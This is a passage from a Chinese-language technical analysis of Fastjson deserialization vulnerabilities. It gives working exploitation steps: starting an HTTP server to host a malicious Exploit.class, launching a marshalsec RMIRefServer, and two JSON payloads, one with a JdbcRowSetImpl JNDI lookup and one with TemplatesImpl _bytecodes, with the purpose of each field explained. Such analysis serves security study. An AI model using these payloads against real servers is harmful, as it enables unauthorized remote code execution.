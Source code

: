 并且JNDI注入位置 `var1.lookup(this.getDataSourceName())` 中，其中的 `this.getDataSourceName()` 就是前面我们通过调用 `setDataSourceName()` 赋值的值，这个值可以被我们攻击者随意控制，也就是攻击者可以控制JNDI的lookup的地址，从而造成JNDI注入。

首先准备一个继承了ObjectFactory类的任意类，在其静态代码块中执行命令，并且将这个类编译成class文件，命名为Exploit.class，注意，这个类不能有package。

然后在Exploit.class文件所在的目录下起一个HTTP服务，使用python起HTTP服务的命令如下：

```bash
python3 -m http.server 80
// Or python2
python2 -m SimpleHTTPServer 80
```

最后使用marshallsec起一个RMIRefServer：

```bash
java -cp marshalsec.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#Shell 1099
```

当靶机执行如下代码时，将会触发前面分析过的JNDI注入了，并且RCE成功：

```java
public static void exp1(){
    String exp="{\n" +
            "  \"test\": {\n" +
            "    \"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\n" +
            "    \"dataSourceName\": \"rmi://127.0.0.1:1099/Exploit\",\n" +
            "    \"autoCommit\": true\n" +
            "  }\n" +
            "}";
    JSON.parse(exp);
}
```

![][p3]

Gadget Chain如下：

![][p4]

然后分析一下EXP 2，首先看到EXP 2：

```java
// EXP 2
{
  "test": {
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["Your Eval Class Bytecodes"],
    "_name": "p1n93r",
    "_tfactory": {},
    "_outputProperties": {}
  }
}
```

一些解释如下所示：

- _bytecodes：编译恶意类后得到的二进制class（需要继承AbstractTranslet）数据的base64编码字符串，需要继承 `AbstractTranslet` 类的原因主要是存在类型检查，检查失败会直接抛出异常，不能调用 `newInstance()` 实例化恶意类来触发RCE了；
- _name：不能为空，主要是为了 `TemplatesImpl#getTransletInstance()` 中能顺利往下执行，否则不能往下执行： `defineTransletClasses()` ;
- _tfactory：不能为空，主要是为了 `TemplatesImpl#defineTransletClasses()` 中能顺利往下执行，否则在有的JDK版本中无法往下执行： `loader.defineClass(_bytecodes[i])` ;
- _outputProperties：FastJson调用 `TemplatesImpl#getOutputProperties()` 时，会调用 `TemplatesImpl#newTransformer()` ，是整个Gadget的入口。
